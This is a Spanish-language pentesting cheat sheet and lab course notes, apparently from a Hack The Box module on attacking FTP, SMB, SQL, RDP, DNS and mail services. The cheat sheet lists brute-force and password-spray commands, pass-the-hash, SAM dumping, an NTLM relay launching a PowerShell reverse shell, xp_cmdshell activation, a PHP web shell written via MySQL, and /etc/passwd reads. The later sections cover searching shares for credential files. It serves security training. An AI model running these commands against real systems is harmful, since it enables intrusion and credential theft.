

# CheatSheet

## Ataque a FTP

|**Mandar**|**Descripción**|
|---|---|
|`ftp 192.168.2.142`|Conexión al servidor FTP mediante el cliente.`ftp`|
|`nc -v 192.168.2.142 21`|Conexión al servidor FTP mediante archivos .`netcat`|
|`hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`|Fuerza bruta del servicio FTP.|

---

## Ataque a las pymes

| **Mandar**                                                                                                      | **Descripción**                                                                  |
| --------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| `smbclient -N -L //10.129.14.128`                                                                               | Pruebas de sesión nula en el servicio SMB.                                       |
| `smbmap -H 10.129.14.128`                                                                                       | Enumeración de recursos compartidos de red mediante .`smbmap`                    |
| `smbmap -H 10.129.14.128 -r notes`                                                                              | Enumeración de recursos compartidos de red recursiva mediante archivos .`smbmap` |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"`                                                           | Descargue un archivo específico de la carpeta compartida.                        |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`                                                    | Cargue un archivo específico en la carpeta compartida.                           |
| `rpcclient -U'%' 10.10.110.17`                                                                                  | Sesión nula con el archivo .`rpcclient`                                          |
| `./enum4linux-ng.py 10.10.11.45 -A -C`                                                                          | Enumeración automatizada del servicio SMB mediante archivos .`enum4linux-ng`     |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`                                            | Pulverización de contraseñas contra diferentes usuarios de una lista.            |
| `impacket-psexec administrator:'Password123!'@10.10.110.17`                                                     | Conéctese al servicio SMB mediante el archivo .`impacket-psexec`                 |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`            | Ejecute un comando a través del servicio SMB mediante .`crackmapexec`            |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`                           | Enumeración de usuarios que han iniciado sesión.                                 |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`                                        | Extraiga hashes de la base de datos SAM.                                         |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`                            | Utilice la técnica Pass-The-Hash para autenticarse en el host de destino.        |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`                                            | Volcado de la base de datos SAM mediante .`impacket-ntlmrelayx`                  |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Ejecute un shell inverso basado en PowerShell mediante .`impacket-ntlmrelayx`    |

---

## Atacar bases de datos SQL

|**Mandar**|**Descripción**|
|---|---|
|`mysql -u julio -pPassword123 -h 10.129.20.13`|Conexión al servidor MySQL.|
|`sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`|Conexión al servidor MSSQL.|
|`sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`|Conexión al servidor MSSQL desde Linux.|
|`sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`|Conectarse al servidor MSSQL desde Linux mientras el servidor MSSQL utiliza el mecanismo de autenticación de Windows.|
|`mysql> SHOW DATABASES;`|Mostrar todas las bases de datos disponibles en MySQL.|
|`mysql> USE htbusers;`|Seleccione una base de datos específica en MySQL.|
|`mysql> SHOW TABLES;`|Mostrar todas las tablas disponibles en la base de datos seleccionada en MySQL.|
|`mysql> SELECT * FROM users;`|Seleccione todas las entradas disponibles de la tabla "usuarios" en MySQL.|
|`sqlcmd> SELECT name FROM master.dbo.sysdatabases`|Mostrar todas las bases de datos disponibles en MSSQL.|
|`sqlcmd> USE htbusers`|Seleccione una base de datos específica en MSSQL.|
|`sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`|Mostrar todas las tablas disponibles en la base de datos seleccionada en MSSQL.|
|`sqlcmd> SELECT * FROM users`|Seleccione todas las entradas disponibles de la tabla "usuarios" en MSSQL.|
|`sqlcmd> EXECUTE sp_configure 'show advanced options', 1`|Para permitir que se cambien las opciones avanzadas.|
|`sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`|Para habilitar el xp_cmdshell.|
|`sqlcmd> RECONFIGURE`|Se utilizará después de cada sp_configure comando para aplicar los cambios.|
|`sqlcmd> xp_cmdshell 'whoami'`|Ejecute un comando del sistema desde el servidor MSSQL.|
|`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`|Cree un archivo usando MySQL.|
|`mysql> show variables like "secure_file_priv";`|Compruebe si los privilegios de archivo seguro están vacíos para leer archivos almacenados localmente en el sistema.|
|`sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`|Leer archivos locales en MSSQL.|
|`mysql> select LOAD_FILE("/etc/passwd");`|Leer archivos locales en MySQL.|
|`sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`|Robo de hash usando el comando en MSSQL.`xp_dirtree`|
|`sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`|Robo de hash usando el comando en MSSQL.`xp_subdirs`|
|`sqlcmd> SELECT srvname, isremote FROM sysservers`|Identifique los servidores vinculados en MSSQL.|
|`sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`|Identifique el usuario y sus privilegios utilizados para la conexión remota en MSSQL.|

---

## Ataque a RDP

|**Mandar**|**Descripción**|
|---|---|
|`crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`|Pulverización de contraseñas contra el servicio RDP.|
|`hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`|Fuerza bruta del servicio RDP.|
|`rdesktop -u admin -p password123 192.168.2.143`|Conéctese al servicio RDP mediante Linux.`rdesktop`|
|`tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`|Suplantar a un usuario sin su contraseña.|
|`net start sessionhijack`|Ejecute el secuestro de sesión RDP.|
|`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`|Habilite el "Modo de administrador restringido" en el host de Windows de destino.|
|`xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`|Utilice la técnica Pass-The-Hash para iniciar sesión en el host de destino sin una contraseña.|

---

## Ataque al DNS

|**Mandar**|**Descripción**|
|---|---|
|`dig AXFR @ns1.inlanefreight.htb inlanefreight.htb`|Realice un intento de transferencia de zona AXFR contra un servidor de nombres específico.|
|`subfinder -d inlanefreight.com -v`|Subdominios de fuerza bruta.|
|`host support.inlanefreight.com`|Búsqueda de DNS para el subdominio especificado.|

---

## Ataque a los servicios de correo electrónico

| **Mandar**                                                                                                                                              | **Descripción**                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| `host -t MX microsoft.com`                                                                                                                              | Búsqueda de DNS para servidores de correo para el dominio especificado.                                    |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"`                                                                                                  | Búsqueda de DNS para servidores de correo para el dominio especificado.                                    |
| `host -t A mail1.inlanefreight.htb.`                                                                                                                    | Búsqueda de DNS de la dirección IPv4 para el subdominio especificado.                                      |
| `telnet 10.10.110.20 25`                                                                                                                                | Conéctese al servidor SMTP.                                                                                |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`                                                                           | Enumeración de usuarios SMTP mediante el comando RCPT en el host especificado.                             |
| `python3 o365spray.py --validate --domain msplaintext.xyz`                                                                                              | Compruebe el uso de Office365 para el dominio especificado.                                                |
| `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`                                                                                     | Enumere los usuarios existentes que usan Office365 en el dominio especificado.                             |
| `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`                                         | Pulverización de contraseñas contra una lista de usuarios que usan Office365 para el dominio especificado. |
| `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`                                                                                               | Fuerza bruta del servicio POP3.                                                                            |
| `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213` | Probando el servicio SMTP para detectar la vulnerabilidad de retransmisión abierta.                        |

# Interacción con los Servicios Comunes

---

Las vulnerabilidades suelen ser descubiertas por personas que utilizan y entienden la tecnología, un protocolo o un servicio. A medida que evolucionemos en este campo, encontraremos diferentes servicios con los que interactuar, y necesitaremos evolucionar y aprender nuevas tecnologías constantemente.

Para tener éxito en el ataque a un servicio, necesitamos conocer su propósito, cómo interactuar con él, qué herramientas podemos usar y qué podemos hacer con él. Esta sección se centrará en los servicios comunes y en cómo podemos interactuar con ellos.

---

## Servicios de uso compartido de archivos

Un servicio de uso compartido de archivos es un tipo de servicio que proporciona, media y supervisa la transferencia de archivos informáticos. Hace años, las empresas solían utilizar sólo servicios internos para compartir archivos, como SMB, NFS, FTP, TFTP, SFTP, pero a medida que crece la adopción de la nube, la mayoría de las empresas ahora también tienen servicios en la nube de terceros como Dropbox, Google Drive, OneDrive, SharePoint u otras formas de almacenamiento de archivos como AWS S3, Azure Blob Storage o Google Cloud Storage. Estaremos expuestos a una mezcla de servicios de intercambio de archivos internos y externos, y necesitamos estar familiarizados con ellos.

Esta sección se centrará en los servicios internos, pero esto puede aplicarse al almacenamiento en la nube sincronizado localmente con servidores y estaciones de trabajo.

---

## Bloque de mensajes del servidor (SMB)

SMB se usa comúnmente en redes de Windows y, a menudo, encontraremos carpetas compartidas en una red de Windows. Podemos interactuar con SMB utilizando la GUI, la CLI o las herramientas. Vamos a cubrir algunas formas comunes de interactuar con SMB usando Windows y Linux.

#### Windows

Hay diferentes formas en las que podemos interactuar con una carpeta compartida usando Windows, y exploraremos un par de ellas. En la GUI de Windows, podemos presionar para abrir el cuadro de diálogo Ejecutar y escribir la ubicación del recurso compartido de archivos, por ejemplo: `[WINKEY] + [R]``\\192.168.220.129\Finance\`


Supongamos que la carpeta compartida permite la autenticación anónima, o que estamos autenticados con un usuario que tiene privilegios sobre esa carpeta compartida. En ese caso, no recibiremos ningún tipo de solicitud de autenticación y se mostrará el contenido de la carpeta compartida.


Si no tenemos acceso, recibiremos una solicitud de autenticación.


Windows tiene dos shells de línea de comandos: el [shell de comandos](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands) y [PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/overview). Cada shell es un programa de software que proporciona comunicación directa entre nosotros y el sistema operativo o la aplicación, proporcionando un entorno para automatizar las operaciones de TI.

Analicemos algunos comandos para interactuar con el recurso compartido de archivos mediante el Shell de comandos () y . El comando [dir](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir) muestra una lista de los archivos y subdirectorios de un directorio.`CMD``PowerShell`

#### Windows CMD - DIR

  Interacción con los Servicios Comunes

```cmd-session
C:\htb> dir \\192.168.220.129\Finance\

Volume in drive \\192.168.220.129\Finance has no label.
Volume Serial Number is ABCD-EFAA

Directory of \\192.168.220.129\Finance

02/23/2022  11:35 AM    <DIR>          Contracts
               0 File(s)          4,096 bytes
               1 Dir(s)  15,207,469,056 bytes free
```

El comando [net use](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/gg651155(v=ws.11)) conecta o desconecta un equipo de un recurso compartido o muestra información sobre las conexiones del equipo. Podemos conectarnos a un recurso compartido de archivos con el siguiente comando y asignar su contenido a la letra de la unidad .`n`

#### CMD de Windows - Uso neto

  Interacción con los Servicios Comunes

```cmd-session
C:\htb> net use n: \\192.168.220.129\Finance

The command completed successfully.
```

También podemos proporcionar un nombre de usuario y una contraseña para autenticarse en el recurso compartido.

  Interacción con los Servicios Comunes

```cmd-session
C:\htb> net use n: \\192.168.220.129\Finance /user:plaintext Password123

The command completed successfully.
```

Con la carpeta compartida asignada como la unidad, podemos ejecutar comandos de Windows como si esta carpeta compartida estuviera en nuestra computadora local. Averigüemos cuántos archivos contiene la carpeta compartida y sus subdirectorios.`n`

#### Windows CMD - DIR

  Interacción con los Servicios Comunes

```cmd-session
C:\htb> dir n: /a-d /s /b | find /c ":\"

29302
```

Se encontraron 29.302 archivos. Veamos el comando:

  Interacción con los Servicios Comunes

```shell-session
dir n: /a-d /s /b | find /c ":\"
```

|**Sintaxis**|**Descripción**|
|---|---|
|`dir`|Aplicación|
|`n:`|Directorio o unidad para buscar|
|`/a-d`|`/a` es el atributo y no significa directorios`-d`|
|`/s`|Muestra los archivos de un directorio especificado y todos los subdirectorios|
|`/b`|Utiliza formato desnudo (sin información de encabezado ni resumen)|

El siguiente comando procesa la salida de para contar cuántos archivos existen en el directorio y los subdirectorios. Puede usar para ver la ayuda completa. La búsqueda en 29.302 archivos lleva mucho tiempo, las utilidades de scripting y línea de comandos pueden ayudarnos a acelerar la búsqueda. Con nosotros podemos buscar nombres específicos en ficheros como:`| find /c ":\\"``dir n: /a-d /s /b``dir /?``dir`

- Credibilidad
- contraseña
- Usuarios
- Secretos
- llave
- Extensiones de archivo comunes para código fuente como: .cs, .c, .go, .java, .php, .asp, .aspx, .html.

  Interacción con los Servicios Comunes

```cmd-session
C:\htb>dir n:\*cred* /s /b

n:\Contracts\private\credentials.txt


C:\htb>dir n:\*secret* /s /b

n:\Contracts\private\secret.txt
```

Si queremos buscar una palabra específica dentro de un archivo de texto, podemos usar [findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr).

#### Windows CMD - Findstr

  Interacción con los Servicios Comunes

```cmd-session
c:\htb>findstr /s /i cred n:\*.*

n:\Contracts\private\secret.txt:file with all credentials
n:\Contracts\private\credentials.txt:admin:SecureCredentials!
```

Podemos encontrar más ejemplos [aquí](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr#examples).`findstr`

#### Windows PowerShell

PowerShell se diseñó para ampliar las capacidades del shell de comandos para ejecutar comandos de PowerShell denominados . Los cmdlets son similares a los comandos de Windows, pero proporcionan un lenguaje de scripting más extensible. Podemos ejecutar comandos de Windows y cmdlets de PowerShell en PowerShell, pero el shell de comandos solo puede ejecutar comandos de Windows y no cmdlets de PowerShell. Vamos a replicar los mismos comandos ahora con Powershell.`cmdlets`

#### Windows PowerShell

  Interacción con los Servicios Comunes

```powershell-session
PS C:\htb> Get-ChildItem \\192.168.220.129\Finance\

    Directory: \\192.168.220.129\Finance

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2/23/2022   3:27 PM                Contracts
```

En lugar de , podemos usar en PowerShell.`net use``New-PSDrive`

  Interacción con los Servicios Comunes

```powershell-session
PS C:\htb> New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
N                                      FileSystem    \\192.168.220.129\Finance
```

Para proporcionar un nombre de usuario y una contraseña con Powershell, debemos crear un [objeto PSCredential](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential). Ofrece una forma centralizada de administrar nombres de usuario, contraseñas y credenciales.

#### Windows PowerShell: objeto PSCredential

  Interacción con los Servicios Comunes

```powershell-session
PS C:\htb> $username = 'plaintext'
PS C:\htb> $password = 'Password123'
PS C:\htb> $secpassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\htb> $cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
PS C:\htb> New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred

Name           Used (GB)     Free (GB) Provider      Root                                                              CurrentLocation
----           ---------     --------- --------      ----                                                              ---------------
N                                      FileSystem    \\192.168.220.129\Finance
```

En PowerShell, podemos usar el comando o la variante corta en lugar del comando .`Get-ChildItem``gci``dir`

#### Windows PowerShell - GCI

  Interacción con los Servicios Comunes

```powershell-session
PS C:\htb> N:
PS N:\> (Get-ChildItem -File -Recurse | Measure-Object).Count

29302
```

Podemos usar la propiedad para encontrar elementos específicos del directorio especificado por el parámetro Path.`-Include`

  Interacción con los Servicios Comunes

```powershell-session
PS C:\htb> Get-ChildItem -Recurse -Path N:\ -Include *cred* -File

    Directory: N:\Contracts\private

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/23/2022   4:36 PM             25 credentials.txt
```

El cmdlet usa la coincidencia de expresiones regulares para buscar patrones de texto en cadenas y archivos de entrada. Podemos usar similar a en UNIX o en Windows.`Select-String``Select-String``grep``findstr.exe`

#### Windows PowerShell: select-string

  Interacción con los Servicios Comunes

```powershell-session
PS C:\htb> Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List

N:\Contracts\private\secret.txt:1:file with all credentials
N:\Contracts\private\credentials.txt:1:admin:SecureCredentials!
```

CLI permite que las operaciones de TI automaticen tareas rutinarias como la administración de cuentas de usuario, copias de seguridad nocturnas o interacción con muchos archivos. Podemos realizar operaciones de manera más eficiente mediante el uso de scripts que la interfaz de usuario o la GUI.

#### Linux

Las máquinas Linux (UNIX) también se pueden usar para examinar y montar recursos compartidos SMB. Tenga en cuenta que esto se puede hacer tanto si el servidor de destino es una máquina Windows como un servidor Samba. Aunque algunas distribuciones de Linux admiten una interfaz gráfica de usuario, nos centraremos en las utilidades y herramientas de línea de comandos de Linux para interactuar con SMB. Vamos a ver cómo montar recursos compartidos SMB para interactuar con directorios y archivos localmente.

#### Linux - Montaje

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ sudo mkdir /mnt/Finance
PatxaSec@htb[/htb]$ sudo mount -t cifs -o username=plaintext,password=Password123,domain=. //192.168.220.129/Finance /mnt/Finance
```

Como alternativa, podemos usar un archivo de credenciales.

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ mount -t cifs //192.168.220.129/Finance /mnt/Finance -o credentials=/path/credentialfile
```

El archivo tiene que estar estructurado de la siguiente manera:`credentialfile`

#### Archivo de credenciales

Código: txt

```txt
username=plaintext
password=Password123
domain=.
```

Nota: Necesitamos instalar para conectarnos a una carpeta compartida SMB. Para instalarlo podemos ejecutarlo desde la línea de comandos.`cifs-utils``sudo apt install cifs-utils`

Una vez que se monta una carpeta compartida, puede usar herramientas comunes de Linux, como o para interactuar con la estructura de archivos. Vamos a buscar un nombre de archivo que contenga la cadena :`find``grep``cred`

#### Linux - Buscar

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ find /mnt/Finance/ -name *cred*

/mnt/Finance/Contracts/private/credentials.txt
```

A continuación, busquemos los archivos que contienen la cadena :`cred`

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ grep -rn /mnt/Finance/ -ie cred

/mnt/Finance/Contracts/private/credentials.txt:1:admin:SecureCredentials!
/mnt/Finance/Contracts/private/secret.txt:1:file with all credentials
```

---

## Otros servicios

Existen otros servicios de compartición de archivos como FTP, TFTP y NFS que podemos adjuntar (montar) utilizando diferentes herramientas y comandos. Sin embargo, una vez que montamos un servicio de compartición de archivos, debemos entender que podemos utilizar las herramientas disponibles en Linux o Windows para interactuar con archivos y directorios. A medida que descubramos nuevos servicios de intercambio de archivos, tendremos que investigar cómo funcionan y qué herramientas podemos utilizar para interactuar con ellos.

#### Correo electrónico

Por lo general, necesitamos dos protocolos para enviar y recibir mensajes, uno para enviar y otro para recibir. El Protocolo Simple de Transferencia de Correo (SMTP) es un protocolo de entrega de correo electrónico que se utiliza para enviar correo a través de Internet. Del mismo modo, se debe utilizar un protocolo de soporte para recuperar un correo electrónico de un servicio. Hay dos protocolos principales que podemos usar: POP3 e IMAP.

Podemos usar un cliente de correo como [Evolution](https://wiki.gnome.org/Apps/Evolution), el administrador oficial de información personal, y un cliente de correo para el entorno de escritorio GNOME. Podemos interactuar con un servidor de correo electrónico para enviar o recibir mensajes con un cliente de correo. Para instalar Evolution, podemos usar el siguiente comando:

#### Linux - Instalar Evolution

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ sudo apt-get install evolution
...SNIP...
```

Nota: Si aparece un error al iniciar la evolución que indica "bwrap: No se puede crear el archivo en ...", utilice este comando para iniciar la evolución.`export WEBKIT_FORCE_SANDBOX=0 && evolution`

#### Vídeo - Conexión a IMAP y SMTP mediante Evolution

Haga clic en la imagen a continuación para ver un breve video de demostración.

[](https://www.youtube.com/watch?v=xelO2CiaSVs)

Podemos utilizar el nombre de dominio o la dirección IP del servidor de correo. Si el servidor utiliza SMTPS o IMAPS, necesitaremos el método de cifrado adecuado (TLS en un puerto dedicado o STARTTLS después de conectarse). Podemos usar la opción de autenticación para confirmar si el servidor es compatible con el método seleccionado.`Check for Supported Types`

#### Bases

Las bases de datos se utilizan normalmente en las empresas, y la mayoría de las empresas las utilizan para almacenar y gestionar información. Existen diferentes tipos de bases de datos, como las bases de datos jerárquicas, las bases de datos NoSQL (o no relacionales) y las bases de datos relacionales SQL. Nos centraremos en las bases de datos relacionales SQL y las dos bases de datos relacionales más comunes llamadas MySQL y MSSQL. Tenemos tres formas comunes de interactuar con las bases de datos:

|||
|---|---|
|`1.`|Utilidades de línea de comandos ( o `mysql``sqsh`)|
|`2.`|Una aplicación GUI para interactuar con bases de datos como HeidiSQL, MySQL Workbench o SQL Server Management Studio.|
|`3.`|Lenguajes de programación|

#### Ejemplo de MySQL


Exploremos las utilidades de línea de comandos y una aplicación GUI.

---

## Utilidades de línea de comandos

#### MSSQL

Para interactuar con [MSSQL (Microsoft SQL Server)](https://www.microsoft.com/en-us/sql-server/sql-server-downloads) con Linux podemos usar [sqsh](https://en.wikipedia.org/wiki/Sqsh) o [sqlcmd](https://docs.microsoft.com/en-us/sql/tools/sqlcmd-utility) si se está utilizando Windows. es mucho más que un mensaje amistoso. Está diseñado para proporcionar gran parte de la funcionalidad proporcionada por un shell de comandos, como variables, aliasing, redirección, tuberías, conexión a tierra, control de trabajos, historial, sustitución de comandos y configuración dinámica. Podemos iniciar una sesión SQL interactiva de la siguiente manera:`Sqsh`

#### Linux - SQSH

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ sqsh -S 10.129.20.13 -U username -P Password123
```

La utilidad permite especificar instrucciones Transact-SQL, procedimientos del sistema y archivos de script a través de una variedad de modos disponibles:`sqlcmd`

- En el símbolo del sistema.
- En el Editor de consultas en modo SQLCMD.
- En un archivo de script de Windows.
- En un paso de trabajo del sistema operativo (Cmd.exe) de un trabajo del Agente SQL Server.

#### Windows - SQLCMD

  Interacción con los Servicios Comunes

```cmd-session
C:\htb> sqlcmd -S 10.129.20.13 -U username -P Password123
```

Para obtener más información sobre el uso, puede consultar [la documentación de Microsoft](https://docs.microsoft.com/en-us/sql/ssms/scripting/sqlcmd-use-the-utility).`sqlcmd`

#### MySQL (en inglés)

Para interactuar con [MySQL](https://en.wikipedia.org/wiki/MySQL), podemos usar binarios de MySQL para Linux () o Windows (). MySQL viene preinstalado en algunas distribuciones de Linux, pero podemos instalar binarios de MySQL para Linux o Windows usando esta [guía](https://dev.mysql.com/doc/mysql-getting-started/en/#mysql-getting-started-installing). Inicie una sesión SQL interactiva con Linux:`mysql``mysql.exe`

#### Linux - MySQL

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ mysql -u username -pPassword123 -h 10.129.20.13
```

Podemos iniciar fácilmente una sesión SQL interactiva usando Windows:

#### Windows - MySQL

  Interacción con los Servicios Comunes

```cmd-session
C:\htb> mysql.exe -u username -pPassword123 -h 10.129.20.13
```

#### Aplicación GUI

Los motores de bases de datos suelen tener su propia aplicación GUI. MySQL tiene [MySQL Workbench](https://dev.mysql.com/downloads/workbench/) y MSSQL tiene [SQL Server Management Studio o SSMS,](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms) podemos instalar esas herramientas en nuestro host de ataque y conectarnos a la base de datos. SSMS solo es compatible con Windows. Una alternativa es utilizar herramientas comunitarias como [dbeaver](https://github.com/dbeaver/dbeaver). [dbeaver](https://github.com/dbeaver/dbeaver) es una herramienta de base de datos multiplataforma para Linux, macOS y Windows que admite la conexión a múltiples motores de bases de datos como MSSQL, MySQL, PostgreSQL, entre otros, lo que nos facilita a nosotros, como atacantes, la interacción con servidores de bases de datos comunes.

Para instalar [dbeaver](https://github.com/dbeaver/dbeaver) usando un paquete Debian podemos descargar el paquete de .deb de lanzamiento de [https://github.com/dbeaver/dbeaver/releases](https://github.com/dbeaver/dbeaver/releases) y ejecutar el siguiente comando:

#### Instalar dbeaver

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ sudo dpkg -i dbeaver-<version>.deb
```

Para iniciar la aplicación utilice:

#### Ejecutar dbeaver

  Interacción con los Servicios Comunes

```shell-session
PatxaSec@htb[/htb]$ dbeaver &
```

Para conectarnos a una base de datos, necesitaremos un conjunto de credenciales, la IP de destino y el número de puerto de la base de datos, y el motor de base de datos al que estamos tratando de conectarnos (MySQL, MSSQL u otro).

#### Vídeo - Conexión a MSSQL DB mediante dbeaver

Haga clic en la imagen a continuación para ver un breve video de demostración de cómo conectarse a una base de datos MSSQL usando .`dbeaver`

[](https://www.youtube.com/watch?v=gU6iQP5rFMw)

Haga clic en la imagen a continuación para ver un breve video de demostración de cómo conectarse a una base de datos MySQL usando .`dbeaver`

#### Vídeo - Conexión a la base de datos MySQL mediante dbeaver

[](https://www.youtube.com/watch?v=PeuWmz8S6G8)

Una vez que tenemos acceso a la base de datos mediante una utilidad de línea de comandos o una aplicación GUI, podemos usar [instrucciones comunes de Transact-SQL](https://docs.microsoft.com/en-us/sql/t-sql/statements/statements?view=sql-server-ver15) para enumerar bases de datos y tablas que contienen información confidencial, como nombres de usuario y contraseñas. Si tenemos los privilegios correctos, podríamos ejecutar comandos como la cuenta de servicio MSSQL. Más adelante en este módulo, discutiremos las instrucciones y ataques comunes de Transact-SQL para bases de datos MSSQL y MySQL.

#### Herramientas

Es crucial familiarizarse con las utilidades de línea de comandos predeterminadas disponibles para interactuar con diferentes servicios. Sin embargo, a medida que avancemos en el campo, encontraremos herramientas que nos pueden ayudar a ser más eficientes. La comunidad suele crear esas herramientas. Aunque, eventualmente, tendremos ideas sobre cómo se puede mejorar una herramienta o para crear nuestras propias herramientas, incluso si no somos desarrolladores a tiempo completo, cuanto más nos familiaricemos con el hacking. Cuanto más aprendemos, más nos encontramos buscando una herramienta que no existe, lo que puede ser una oportunidad para aprender y crear nuestras herramientas.

#### Herramientas para interactuar con los servicios comunes

|**SMB**|**FTP**|**Correo electrónico**|**Bases**|
|---|---|---|---|
|[smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)|[FTP](https://linux.die.net/man/1/ftp)|[Thunderbird](https://www.thunderbird.net/en-US/)|[mssql-cli](https://github.com/dbcli/mssql-cli)|
|[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)|[lftp](https://lftp.yar.ru/)|[Garras](https://www.claws-mail.org/)|[mycli](https://github.com/dbcli/mycli)|
|[SMBMap](https://github.com/ShawnDEvans/smbmap)|[NCFTP](https://www.ncftp.com/)|[Geary](https://wiki.gnome.org/Apps/Geary)|[mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)|
|[Impacket](https://github.com/SecureAuthCorp/impacket)|[filezilla](https://filezilla-project.org/)|[MailSpring (en inglés)](https://getmailspring.com/)|[Castor](https://github.com/dbeaver/dbeaver)|
|[psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)|[crossftp](http://www.crossftp.com/)|[perro callejero](http://www.mutt.org/)|[MySQL Workbench](https://dev.mysql.com/downloads/workbench/)|
